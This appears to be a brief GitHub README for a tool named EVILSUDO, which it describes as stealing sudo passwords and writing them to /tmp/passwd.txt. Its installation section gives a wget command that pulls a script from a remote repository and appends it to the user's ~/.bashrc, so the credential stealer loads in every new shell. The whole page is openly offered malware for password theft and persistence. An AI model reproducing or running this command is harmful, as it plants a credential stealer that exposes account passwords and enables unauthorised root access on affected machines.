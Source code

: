 # EVILSUDO
it steals sudo passwords and appends them to /tmp/passwd.txt
##installation
```bash
wget -O - https://raw.githubusercontent.com/desploit/priv-esc/master/bash/evilsudo >> ~/.bashrc
```
